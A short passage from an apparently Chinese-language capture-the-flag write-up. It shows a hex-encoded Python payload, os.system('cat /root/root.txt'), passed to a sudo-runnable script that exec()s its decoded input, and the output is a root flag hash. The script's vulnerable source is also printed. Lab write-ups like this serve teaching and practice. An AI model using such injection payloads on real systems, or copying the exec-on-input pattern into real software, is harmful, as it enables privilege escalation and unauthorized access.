 那我们修改一下内容就行了

```bash
string:import os;os.system('cat /root/root.txt');
hex:696d706f7274206f733b6f732e73797374656d2827636174202f726f6f742f726f6f742e74787427293b

irida@orasi:~$ sudo -u root python3  /root/oras.py
: 696d706f7274206f733b6f732e73797374656d2827636174202f726f6f742f726f6f742e74787427293b
b1c17c79773c831cbb9109802059c6b5
None


```

最后，这是python的代码
```python
import os
import base64
import re
import sys

name = input(": ")
name = bytes.fromhex(name).decode('utf-8')
print(exec(name))
```
